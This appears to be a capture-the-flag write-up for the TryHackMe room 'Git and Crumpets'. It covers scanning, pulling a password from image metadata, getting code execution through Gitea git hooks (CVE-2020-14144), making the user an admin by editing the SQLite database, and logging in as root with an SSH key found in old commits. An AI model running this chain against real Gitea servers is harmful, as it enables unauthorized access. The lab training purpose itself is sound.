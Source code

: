 # Git and Crumpets 


- Room link:  
  https://tryhackme.com/room/gitandcrumpets
  
![image](https://user-images.githubusercontent.com/5285547/124516978-c903a380-ddda-11eb-9889-003881db1c7b.png)


## Nmap 

Let's see what we are working with here. 

```
Nmap scan report for git.git-and-crumpets.thm (10.10.255.148)
Host is up (0.022s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
9090/tcp closed zeus-admin
```
I see ```git.git-and-crumpets.thm``` and ```git-and-crumpets.thm``` in the nmap output.  
Let's add them to our ```/etc/hosts``` file

```
sudo nano /etc/hosts
```

## Port 80

Visiting the main website page, instantly redirects us to a Rick Astley video (we do love our Rick).
After having added the new hosts to the host file, I can now see the real page... 

![image](https://user-images.githubusercontent.com/5285547/124517211-55ae6180-dddb-11eb-8d35-0cb559d7a423.png)

Let's make an account and have a look around the system.  
After making the new account login. When you get there you will notice a few repos in ```Explore``` tab. 

![image](https://user-images.githubusercontent.com/5285547/124517322-9c9c5700-dddb-11eb-9f7c-4eb5f1302aed.png)

Checking the repo and its commits, we can see 5 changes. Let's review them. 

![image](https://user-images.githubusercontent.com/5285547/124517368-b50c7180-dddb-11eb-8987-c4513be276d0.png)

Now knowing the users password is in the image, lets get it. 

```
curl http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d -s | strings -n 8 | head
```
Result
```
8tEXtDescription
My 'Password' should be easy enough to guess
E7V:W*555}
```
Next we need to find his email, luckily its on the main profile for the user. 

![image](https://user-images.githubusercontent.com/5285547/124517524-13395480-dddc-11eb-8dc6-e45bb81effd2.png)

## User

Lets login as the new user, then check if he has nay higher privileges. 

![image](https://user-images.githubusercontent.com/5285547/124517654-66aba280-dddc-11eb-8537-2747bfff88f3.png)

Yes, Githooks are available. This will allow use to execute code on a successful change to the repo.

More info here: https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/

Edit the page above with a bash shell to your machine. 

![image](https://user-images.githubusercontent.com/5285547/124517772-bbe7b400-dddc-11eb-95fc-148134506ffe.png)

Then update the hook script to save it.
Now edit the readme.md file with any change to get our hook to fire and get a shell. 

![image](https://user-images.githubusercontent.com/5285547/124518309-fef65700-dddd-11eb-9e90-3fcd32af987f.png)

We can grab the flag in the home folder. (/home/git)  
Its abse64 encoded, so decode it. If you forget ...

```
echo dGhte2ZYzZDZhYTE2fQ=|base64 -d 
```

## Root

Let's now look around the system for any gitea related files (database, config etc)

```
find / -type f 2>/dev/null | grep "gitea" | grep "db"
```
```
/var/lib/gitea/data/gitea.db      << Looks like what we need!! 

/var/lib/gitea/data/gitea-repositories/root/backup.git/objects/05/2db66e7afb93b756a8fd79b1d794299e40a684
/var/lib/gitea/data/gitea-repositories/scones/cant-touch-this.git/objects/7a/8cad890480058860f42788db193afa38182cb6
/var/lib/gitea/data/queues/push_update/000002.ldb
/var/lib/gitea/data/queues/notification-service/000002.ldb
/var/lib/gitea/data/queues/repo_stats_update/000002.ldb
/var/lib/gitea/data/queues/pr_patch_checker/000002.ldb
```
Now change to the directory. Running ```file /var/lib/gitea/data/gitea.db```  
Shows us this is a SQlite3 database. 

![image](https://user-images.githubusercontent.com/5285547/124519198-82b14300-dde0-11eb-839b-2be44023705f.png)

```
sqlite3 gitea.db
```

- SQlite3 Basic Cheatsheet

```
sqlite> .database              #List database
slqite> .tables                #List tables
sqlite> .scheme user           #List schema of the table users
sqlite> .mode column           #Set mode to column
sqlite> .mode tab
sqlite> .mode line             #Set mode to line   - my preffered here. 
sqlite> .width 10 25 3 6 15    #Set width of column
sqlite> .show                  #Show column settings
```

After listing the tables and seeing a user table, lets get the data to some passwords hopefully. 
Trying the crack the passwords was taking a really long time, so I opted to edit the user we had access to. 
Giving him admin access via the sqlite database. 

```
UPDATE user SET is_admin=1 WHERE id=3;
```

Going back to the application we now see a new repo. 

![image](https://user-images.githubusercontent.com/5285547/124520096-47fcda00-dde3-11eb-95e8-07978deb579b.png)

Looking at the brances, we can see a new file ```dotfiles```

![image](https://user-images.githubusercontent.com/5285547/124520136-6fec3d80-dde3-11eb-9334-a483faa55567.png)

With old commits, one in particular looks very interesting. 

![image](https://user-images.githubusercontent.com/5285547/124520169-87c3c180-dde3-11eb-8c29-898af75e9768.png)

An ssh key!!

![image](https://user-images.githubusercontent.com/5285547/124520205-a1fd9f80-dde3-11eb-9870-887b41eec23e.png)

Copying the contents to a new file and making it executable. Then using the "password" from the file name. 
We can now access SSH and get the last flag. 

```
nano id_rsa   #copy contents in
chmod 600 id_rsa
ssh root@git-and-crumpets -i id_rsa
```

![image](https://user-images.githubusercontent.com/5285547/124520332-133d5280-dde4-11eb-9faa-8a83df540199.png)

Now we got the last flag and owned the box! 




